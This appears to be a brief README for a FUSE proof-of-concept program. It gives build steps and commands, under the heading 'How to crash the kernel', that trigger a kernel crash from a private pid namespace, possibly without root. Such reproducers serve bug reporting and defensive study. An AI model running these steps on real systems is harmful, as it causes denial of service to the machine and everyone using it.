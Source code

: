 # Build:
```
mkdir build
cd build
cmake ..
make
```

# How to crash the kernel:


```
# If you have unprivileged user namespaces, you can do this under a userns.
sudo unshare --mount-proc -p --propagation=private --fork /bin/bash # This gives us a private pid namespace
mkdir -p /tmp/example
./bin/fuse-example -s -f /tmp/example &
cat /tmp/example/fire
```


